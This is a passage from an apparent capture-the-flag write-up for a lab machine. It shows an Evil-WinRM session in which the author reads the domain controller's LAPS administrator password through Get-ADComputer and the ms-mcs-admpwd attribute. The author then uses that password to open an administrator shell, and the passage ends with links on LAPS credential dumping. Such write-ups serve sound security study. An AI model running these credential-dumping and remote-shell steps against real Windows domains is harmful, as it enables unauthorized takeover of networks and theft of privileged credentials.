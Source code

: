 ```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : HQ[s0h+717F6CR.)b+7)mm4a
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```
Using evil-winrm to get `administrator` shell. 
```
$evil-winrm -i timelapse.htb -S -u administrator -p "HQ[s0h+717F6CR.)b+7)mm4a"

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

### Reference:
```
https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file

https://www.hackingarticles.in/credential-dumpinglaps/
```